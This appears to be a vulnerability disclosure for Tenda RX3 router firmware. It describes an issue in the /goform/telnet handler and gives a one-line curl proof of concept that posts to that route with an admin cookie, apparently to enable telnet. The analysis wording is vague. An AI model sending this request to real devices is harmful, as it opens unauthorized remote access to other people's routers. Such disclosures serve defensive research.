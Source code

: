 | Firmware Name | Firmware Version   | Download Link                                                |
| ------------- | ------------------ | ------------------------------------------------------------ |
| RX3           | V16.03.13.11_multi | https://static.tenda.com.cn/tdeweb/download/RX3/US_RX3V1.0br_V16.03.13.11_multi_TDE01.zip |

## Analysis

![74d9a822fc4ad00b46952ca767ab8f1](./assets/74d9a822fc4ad00b46952ca767ab8f1.png)

An HTTP request within the handler function of the /goform/telnet route. This could lead to Shell Metacharacters.

## POC

```
curl -i -X POST http://192.168.0.1/goform/telnet -d aa=aa --cookie "user=admin" --http0.9
```

![c637793fb26c4049fd46050b2e745f1](./assets/c637793fb26c4049fd46050b2e745f1.png)